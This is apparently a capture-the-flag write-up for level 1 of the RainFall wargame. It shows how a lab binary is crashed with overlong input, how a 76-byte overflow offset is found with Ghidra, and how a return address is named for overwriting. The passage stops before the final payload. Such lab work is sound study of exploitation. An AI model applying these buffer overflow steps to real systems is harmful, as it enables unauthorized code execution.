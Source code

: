 # Level 1


### In this level, we have to exploit a buffer overflow

```bash
level1@RainFall:~$ ./level1 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level1@RainFall:~$ ./level1 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
level1@RainFall:~$
```
With ghidra, we can see that the overflow will be done after 76 bytes, let's write 76 characters with python, it will be easier for the next steps

```bash
level1@RainFall:~$ python -c "print('a' * 76)" | ./level1 
Illegal instruction (core dumped)
```
Let's use gdb to have more informations about this executable ([click here](gdbwriteup.md))

After some searchs, we found that the address that we will need to use for the exploit is `0x08048444`

We will have to enter it reversly
```bash
